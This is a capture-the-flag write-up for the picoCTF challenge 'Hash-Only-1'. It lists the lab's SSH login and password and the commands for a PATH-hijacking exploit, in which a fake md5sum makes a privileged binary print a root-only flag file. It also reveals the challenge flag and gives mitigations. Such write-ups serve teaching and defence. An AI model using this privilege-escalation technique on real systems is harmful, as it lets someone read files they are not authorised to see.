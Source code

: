 
## Hash-Only-1 Writeup

### Challenge Details

**Name:** Hash-Only-1  
**Points:** 100  
**Author:** Junias Bonou

**Description:**  
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

Connect using SSH:

```
ssh ctf-player@shape-facility.picoctf.net -p 49909
```

Password: `84b12bae`  
Run the binary named `flaghasher`.

---

### Exploitation

1. **Understanding the Challenge:**
    
    - The `flaghasher` binary reads the flag file (`/root/flag.txt`) but only outputs its MD5 hash.
        
    - We need a way to retrieve the actual contents of `/root/flag.txt` instead of its hash.
        
2. **Leveraging** `**PATH**` **Hijacking:**
    
    - Since Linux binaries use the `PATH` environment variable to locate executables, we can create our own version of `md5sum` that simply prints the file's contents.
        
    - We will create a fake `md5sum` script that reads and displays the flag instead of hashing it.
        
3. **Steps to Exploit:**
    
    - Create a directory for our custom binaries:
        
        ```
        mkdir /tmp/bin
        ```
        
    - Create a fake `md5sum` script that outputs the contents of any file passed to it:
        
        ```
        echo '#!/bin/bash' > /tmp/bin/md5sum
        echo 'cat "$@" | tee /tmp/output' >> /tmp/bin/md5sum
        chmod +x /tmp/bin/md5sum
        ```
        
    - Prepend `/tmp/bin` to `PATH` so our fake `md5sum` is used instead of the real one:
        
        ```
        PATH=/tmp/bin:$PATH ./flaghasher
        ```
        
    - Since `flaghasher` calls `md5sum` internally, it now runs our fake script instead, which reads and prints `/root/flag.txt`!
        
4. **Flag Retrieved:**
    
    ```
    picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_0c1fd083}
    ```
    ![[Pasted image 20250313234554.png]]

---

### Lessons Learned

- **Understanding Binary Execution:** The challenge required knowledge of how Linux searches for executables using the `PATH` variable.
    
- **Exploiting PATH Hijacking:** By creating a malicious script named `md5sum` in a directory we control, we successfully tricked the binary into running our code.
    
- **Privilege Abuse in CTFs:** Programs that execute system commands can often be manipulated if they do not use absolute paths to critical binaries.
    

**Mitigation Strategies:**

- Developers should always use absolute paths for system commands, e.g., `/usr/bin/md5sum` instead of `md5sum`.
    
- Restrict unnecessary execution privileges.
    

---

### Conclusion

By leveraging `PATH` hijacking, we successfully tricked `flaghasher` into revealing the flag instead of its hash. This challenge highlights the importance of secure coding practices in privileged binaries.